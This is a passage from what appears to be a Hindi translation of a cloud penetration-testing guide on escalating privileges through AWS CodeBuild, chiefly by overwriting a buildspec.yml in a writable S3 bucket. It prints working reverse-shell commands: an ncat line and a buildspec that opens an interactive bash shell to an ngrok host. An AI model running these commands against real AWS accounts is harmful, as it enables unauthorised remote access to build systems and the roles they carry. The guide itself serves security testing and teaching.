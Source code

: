 Codebuild प्रोजेक्ट में एक ब्रेकपॉइंट होना चाहिए:

<pre class="language-yaml"><code class="lang-yaml">phases:
pre_build:
commands:
- echo Entered the pre_build phase...
- echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

और फिर:
```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```
For more info [**check the docs**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

एक हमलावर जो एक विशिष्ट CodeBuild प्रोजेक्ट का निर्माण शुरू/पुनः प्रारंभ करने में सक्षम है, जो अपने `buildspec.yml` फ़ाइल को एक S3 बकेट पर संग्रहीत करता है, जिस पर हमलावर को लिखने की अनुमति है, CodeBuild प्रक्रिया में कमांड निष्पादन प्राप्त कर सकता है।

Note: यह वृद्धि केवल तभी प्रासंगिक है जब CodeBuild कार्यकर्ता की भूमिका हमलावर की भूमिका से भिन्न हो, उम्मीद है कि अधिक विशेषाधिकार प्राप्त हो।
```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```
आप **reverse shell** प्राप्त करने के लिए ऐसा कुछ **buildspec** का उपयोग कर सकते हैं:

{% code title="buildspec.yml" %}
```yaml
version: 0.2

phases:
build:
commands:
- bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18419 0>&1
```
{% endcode %}
